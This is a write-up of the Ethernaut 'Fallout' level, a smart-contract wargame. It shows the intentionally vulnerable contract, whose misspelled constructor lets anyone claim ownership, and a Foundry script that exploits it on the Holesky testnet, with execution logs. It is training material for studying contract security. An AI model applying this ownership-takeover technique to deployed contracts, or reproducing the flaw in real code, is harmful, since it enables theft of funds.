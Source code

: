 ```yaml
---
layout: post
title: "[Ethernaut] Fallout"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership of the contract below

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

[Solidity 0.6.0 Documentation - constructors](https://docs.soliditylang.org/en/v0.6.0/contracts.html#constructors)


> 💡 Prior to version 0.4.22, constructors were defined as functions with the same name as the contract. This syntax was deprecated and is not allowed anymore in version 0.5.0.


For some reason, the intended `constructor` code was written as `Fal1out()`, preventing it from acting as a `constructor` and allowing external access, which enables claiming `owner`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Fallout.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSol is Script {
    Fallout public fallout_ = Fallout(0x28eA66cBFb2900Bea8bb84f058d740ce0Ab751CB);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallout_.Fal1out();
        console.log("Contract owner: ", fallout_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/FalloutSol.sol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Contract owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002095526 gwei

Estimated total gas used for script: 62992

Estimated amount required: 0.000000132001373792 ETH

==========================

##### holesky
✅  [Success] Hash: 0xcaa845bc5fa9ebb3adcb5902c12ffa24c14a609adc31cd0b789bfae23b11c5aa
Block: 3669787
Paid: 0.000000095568239514 ETH (45606 gas * 0.002095519 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000095568239514 ETH (45606 gas * avg 0.002095519 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-17-Fallback/complete.png)
